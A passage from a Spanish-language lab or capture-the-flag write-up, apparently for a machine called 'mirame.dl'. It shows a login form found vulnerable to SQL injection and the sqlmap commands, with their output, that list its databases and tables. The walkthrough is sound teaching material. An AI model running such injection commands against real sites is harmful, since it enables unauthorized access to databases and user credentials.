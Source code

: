 Encontramos un login en el cual intentamos diferentes combinaciones pero no es posible al adjuntar una comilla nos damos de cuenta que nos lanza un error, por lo que puede ser vulnerable a un ataque sqlinyection por lo que procedemos a correr `sqlmap`

```bash
sqlmap -u http://mirame.dl/index.php -forms -batch --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:30:33 /2024-10-01/

[11:30:33] [INFO] testing connection to the target URL
[11:30:33] [INFO] searching for forms
[1/1] Form:
POST http://mirame.dl/auth.php
POST data: username=&password=

[11:30:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.61
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[11:30:46] [INFO] fetching database names
[11:30:46] [INFO] retrieved: 'information_schema'
[11:30:46] [INFO] retrieved: 'users'
available databases [2]:
[*] information_schema
[*] users

[11:30:46] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/frogtheripper/.local/share/sqlmap/output/results-10012024_1130am.csv'

[*] ending @ 11:30:46 /2024-10-01/

```

Como resultado vemos que nos encuentra dos bases de datos una llamada information\_schema y otra users que es la que nos interesa.

```bash
sqlmap -u http://mirame.dl/index.php -forms -batch --dbs -D users -tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.8.9#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:31:12 /2024-10-01/
[11:31:13] [INFO] fetching tables for database: 'users'
[11:31:13] [INFO] retrieved: 'usuarios'
Database: users
[1 table]
+----------+
```